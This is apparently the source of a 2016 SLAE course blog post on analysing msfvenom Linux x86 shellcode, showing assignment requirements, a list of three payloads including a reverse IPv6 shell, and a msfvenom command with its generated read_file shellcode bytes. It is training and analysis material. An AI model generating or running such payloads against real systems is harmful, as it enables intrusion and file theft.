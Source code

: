 ```yaml
---
layout: post
title: SLAE Assignment 5 - msfvenom Shellcode Analysis
date: '2016-12-07T21:40:00.000-06:00'
author: Sanjiv Kawa
tags:
- SLAE
- SecurityTube
- Assignment
- Shellcode
- nasm
- assembly
- msfvenom
comments: true
---
```


### SLAE Assignment Stub
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

<a href="http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/">http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</a>

Student ID: SLAE-807


### Assignment 5 Requirements
- Take 3 shellcode samples created with msfvenom for Linux x86.
- Use GDB, Ndiasm and Libemu to dissect the functionality of the shellcode.
- Present your analysis of the shellcode.


### msfvenom Shellcode
The following shellcodes and corresponding debugging methods have been selected:

1\. `linux/x86/shell/read_file` - GDB <br>
2\. `linux/x86/exec` - Libemu <br>
3\. `linux/x86/shell/reverse_ipv6_tcp` - Ndiasm <br>


### 1. read_file Payload Creation
Creating a payload for `linux/x86/shell/read_file` in C format.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment5$ msfvenom -p linux/x86/read_file PATH=/home/skawa/Desktop/code/assignment/assignment5/testFile.txt -f c -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 122 bytes
Final size of c file: 539 bytes
unsigned char buf[] =
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x68\x6f\x6d\x65\x2f\x73\x6b\x61\x77\x61\x2f\x44\x65"
"\x73\x6b\x74\x6f\x70\x2f\x63\x6f\x64\x65\x2f\x61\x73\x73\x69"
"\x67\x6e\x6d\x65\x6e\x74\x2f\x61\x73\x73\x69\x67\x6e\x6d\x65"
"\x6e\x74\x35\x2f\x74\x65\x73\x74\x46\x69\x6c\x65\x2e\x74\x78"
"\x74\x00";
skawa@ubuntu:~/Desktop/code/assignment/assignment5$
~~~
